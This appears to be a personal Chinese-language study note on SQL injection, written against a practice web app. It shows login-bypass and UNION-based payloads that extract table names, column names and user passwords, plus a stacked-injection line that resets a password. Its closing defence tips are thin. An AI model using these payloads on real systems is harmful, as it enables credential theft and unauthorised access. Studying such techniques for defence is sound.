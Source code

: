 ```yaml
---
title: 网站安全
date: 2022-04-18 14:56:28
tags:
categories:
---
```




# SQL注入

[启蒙](https://www.cnblogs.com/ichunqiu/p/9604564.html)

## 攻击

### 绕过密码登录

（也叫条件注入）

![image-20220418151828925](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418151828925.png)

![image-20220418150656284](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418150656284.png)

![image-20220418150718927](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418150718927.png)

只要username正确，那么直接绕过密码了:)

原因是sql语句被恶意篡改成了

```
SELECT * FROM user WHERE id = 4 OR TRUE AND password = ${password};
```





如果它不过滤查询字符串，它将给出如下错误：

第5行的Article.php中的5MySQL语法错误

则该网站易受攻击



简单检查密码

```java
    @NotBlank(message = "密码不能为空")
    @Pattern(regexp = "^(?![0-9]+$)(?![a-zA-Z]+$)[0-9A-Za-z]{8,32}$",message = "密码不符合格式要求")
    private String password;
```





### 查看数据库某表的列数

![image-20220418151803683](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418151803683.png)

![image-20220418151653801](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418151653801.png)

![image-20220418153235568](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418153235568.png)



（原语法：order by + 列名，以某列的值作排序的依据）

（如果是数字的话，则相当于用各列的下标来表示各列）

不断增大order by后的数字

不报错，就说明该列存在

报错了，就说明当前表的列数是它减一:)



Ps：



### 查看数据库中所有得表名

![image-20220418155712707](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418155712707.png)

![image-20220418155741695](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418155741695.png)

![image-20220418160326964](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418160326964.png)

原本要返回的本来是当前班级的学生列表的

每个学生的信息包括：ID和姓名

这sql注入直接利用UNION把数据库里所有的表名当成学生数据返回了



注入部分

```
1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables--
```

字段解释：

1 —— 班级id

UNION —— 把两个select的结果连接起来

（理所当然的要求前后两个select的列数要一致）

（这也是为什么要获取列数的原因）



1,table_name,3,4 —— 是第二个select语句的各列



information_schema.tables —— 是所有数据库都有的一张表，包含了所有表的表名

（新建的表一般在末尾，前面的都是mysql自带的一些表）



### 获取所有列名:)

切入口和上面一致

注入的sql

```sql
1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns--
```

![image-20220418160853376](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418160853376.png)

:) :) :)



### 获取密码

首先是查看user表的列名

![image-20220418161435037](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418161435037.png)

注入的sql

```sql
1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns WHERE table_name='user'--
```

获取密码

用户名：密码

![image-20220418161713453](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418161713453.png)

注入的sql

```sql
1 UNION SELECT 1,concat(id,0x3a,password),3,4 FROM user--
```



### 时间盲注

![image-20220418164445613](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20220418164445613.png)







## 攻击的特殊手段

--可以把后面的语句给注释掉

null不会导致任何类型转换错误

OR TRUE

UNION 可以理所当然得把查询语句嵌进来（得先用ORDER BY把列数试出来）

### 堆叠注入局限

就是输入类似`1;update user set password = '12345' where id =1`这种方式

让执行完查询语句后在执行更新语句，以达到我们的目的

但是很遗憾，这种方式有很大的局限性

主要就是我们常用的ORM框架并不支持同时执行多条sql语句，因此很难实现注入

据了解，这种方式在php语言中可以成功实践。




## 防范

Integer类型反而不容易被注入

```java
public String checkRow(Integer id){
    ...
}
```

